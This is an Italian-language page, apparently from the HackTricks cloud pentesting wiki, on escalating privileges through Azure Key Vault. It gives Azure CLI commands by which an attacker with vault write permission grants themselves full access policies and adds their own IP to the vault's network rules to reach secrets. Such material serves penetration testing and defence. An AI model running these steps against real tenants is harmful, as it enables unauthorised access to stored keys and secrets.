 # Az - Key Vault Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Azure Key Vault

Per ulteriori informazioni su questo servizio, controlla:

{{#ref}}
../az-services/az-keyvault.md
{{#endref}}

### `Microsoft.KeyVault/vaults/write`

Un attaccante con questo permesso sarà in grado di modificare la policy di un key vault (il key vault deve utilizzare le policy di accesso invece di RBAC).
```bash
# If access policies in the output, then you can abuse it
az keyvault show --name <vault-name>

# Get current principal ID
az ad signed-in-user show --query id --output tsv

# Assign all permissions
az keyvault set-policy \
--name <vault-name> \
--object-id <your-object-id> \
--key-permissions all \
--secret-permissions all \
--certificate-permissions all \
--storage-permissions all
```
### Modifica delle Restrizioni di Rete

Potrebbe essere possibile che tu abbia abbastanza permessi per accedere a dati sensibili (come il valore di un segreto) ma non puoi accedervi perché il key vault è limitato a una rete specifica. Se hai il permesso di modificare le restrizioni di rete, puoi aggiungere il tuo IP all'elenco degli IP consentiti.
```bash
# Get the current network restrictions
az keyvault network-rule list --name <vault-name>

# Add your IP to the list
az keyvault network-rule add --name <vault-name> --ip-address <your-ip>
```
{{#include ../../../banners/hacktricks-training.md}}
